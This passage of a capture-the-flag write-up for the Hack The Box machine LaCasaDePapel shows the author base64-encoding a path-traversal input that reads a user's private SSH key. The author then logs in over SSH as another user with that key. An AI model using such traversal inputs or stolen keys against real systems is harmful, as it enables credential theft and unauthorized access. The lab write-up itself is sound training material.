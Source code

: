 ```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/lacasadepapel]
└─$ echo 'U0VBU09OLTEvMDEuYXZp' | base64 -d
SEASON-1/01.avi 
```

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/lacasadepapel]
└─$ echo -n '../../../../home/berlin/.ssh/id_rsa' | base64 
Li4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2E=             
```

![](https://github.com/Leo-2807/Writeups/blob/main/images/la5.png)

I also downloaded the `user.txt` file the same way.

I tried to ssh into the machine using the key but couldn't. So I tried other users and was able to successfully ssh as professor.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/lacasadepapel]
└─$ ssh -i id_rsa professor@10.10.10.131

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ whoami
professor
```
